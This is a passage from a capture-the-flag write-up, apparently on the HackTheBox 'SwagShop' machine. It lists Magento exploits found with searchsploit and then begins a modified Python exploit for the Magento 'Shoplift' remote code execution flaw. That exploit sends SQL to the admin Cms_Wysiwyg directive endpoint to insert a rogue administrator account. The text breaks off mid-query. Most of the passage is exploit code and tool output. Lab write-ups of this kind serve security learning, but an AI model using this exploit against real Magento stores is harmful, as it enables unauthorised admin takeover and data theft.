 # Exploitation (1)

Lets try to find some exploits for Magento
{% highlight bash %}
$ searchsploit magento
---------------------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                                          |  Path
                                                                                        | (/usr/share/exploitdb/)
---------------------------------------------------------------------------------------- ----------------------------------------
Magento 1.2 - '/app/code/core/Mage/Admin/Model/Session.php?login['Username']' Cross-Sit | exploits/php/webapps/32808.txt
Magento 1.2 - '/app/code/core/Mage/Adminhtml/controllers/IndexController.php?email' Cro | exploits/php/webapps/32809.txt
Magento 1.2 - 'downloader/index.php' Cross-Site Scripting                               | exploits/php/webapps/32810.txt
Magento < 2.0.6 - Arbitrary Unserialize / Arbitrary Write File                          | exploits/php/webapps/39838.php
Magento CE < 1.9.0.1 - (Authenticated) Remote Code Execution                            | exploits/php/webapps/37811.py
Magento Server MAGMI Plugin - Multiple Vulnerabilities                                  | exploits/php/webapps/35996.txt
Magento Server MAGMI Plugin 0.7.17a - Remote File Inclusion                             | exploits/php/webapps/35052.txt
Magento eCommerce - Local File Disclosure                                               | exploits/php/webapps/19793.txt
Magento eCommerce - Remote Code Execution                                               | exploits/xml/webapps/37977.py
eBay Magento 1.9.2.1 - PHP FPM XML eXternal Entity Injection                            | exploits/php/webapps/38573.txt
eBay Magento CE 1.9.2.1 - Unrestricted Cron Script (Code Execution / Denial of Service) | exploits/php/webapps/38651.txt
---------------------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
Papers: No Result
{% endhighlight %}

The one worked was `Magento eCommerce - Remote Code Execution`. Below is a slightly modified version.

{% highlight python %}
import requests
import base64
import sys

target = "http://swagshop.htb/"

username = "try"
password = "again"

if not target.startswith("http"):
    target = "http://" + target

if target.endswith("/"):
    target = target[:-1]

target_url = target + "/admin/Cms_Wysiwyg/directive/index/"

q="""
SET @SALT = 'rp';
SET @PASS = CONCAT(MD5(CONCAT( @SALT , '{password}') ), CONCAT(':', @SALT ));
SELECT @EXTRA := MAX(extra) FROM admin_user WHERE extra IS NOT NULL;
INSERT INTO `admin_user` 